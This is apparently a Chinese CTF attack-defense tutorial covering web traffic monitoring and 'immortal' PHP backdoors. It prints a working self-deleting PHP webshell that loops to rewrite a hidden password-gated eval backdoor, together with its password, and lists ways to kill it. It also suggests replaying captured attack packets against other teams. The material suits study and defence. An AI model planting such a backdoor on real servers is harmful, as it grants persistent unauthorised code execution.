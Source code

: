 # 演示案例：

## 案例 1-防守-流量监控-实时获取访问数据包流量

利用 WEB 访问监控配合文件监控能实现 WEB 攻击分析及后门清除操作，确保写入后门操作失效，
也能确保分析到无后门攻击漏洞的数据包便于后期利用

上传文件监控脚本log-record.php，该脚本需要在网站配置文件footer.php中包含一下，否则无法正常调用运行。

![img](https://img2020.cnblogs.com/blog/1375459/202201/1375459-20220113110323362-786474871.png)

之后一旦有人访问了系统，它就会在/tmp/目录下生成一个log日志。

接下来我们就可以实时监控该日志。

![img](https://img2020.cnblogs.com/blog/1375459/202201/1375459-20220113110848101-1818293607.png)

1.分析有后门或无后门的攻击行为数据包找到漏洞进行修复
2.分析到成功攻击的数据包进行自我利用，用来攻击其他队伍

## 案例 2-攻击-权限维持-不死脚本后门生成及查杀

在攻击利用后门获取 Flag 时，不死后门的权限维持,尤为重要，同样防守方也要掌握对其不死后门的查杀和利用，这样才能获取更高的分数，对比文件监控前后问题。

### 不死马

```shell
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = './.index.php';
$code = '<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>';
//pass=Sn3rtf4ck 马儿用法：fuckyou.php?pass=Sn3rtf4ck&a=command
while (1){
	file_put_contents($file,$code);
	usleep(5000);
}
?>
```

### 如何应对不死马？

- 1.ps auxww|grep shell.php 找到pid后杀掉进程就可以，你删掉脚本是起不了作用的，因为php执行的时候已经把脚本读进去解释成opcode运行了
- 2.重启php等web服务
- 3.用一个ignore_user_abort(true)脚本，一直竞争写入（覆盖对方写入的后门code，让对方无法连接），usleep要低于对方不死马设置的值。
- 4.创建一个和不死马生成的马一样名字的文件夹。

monitor-文件监控脚本。

monitor.py开启之前，写入不死后门，monitor.py无法对其查杀，不死后门有作用；

monitor.py开启之后，写入不死后门，monitor.py可以对其查杀，不死后门无作用。
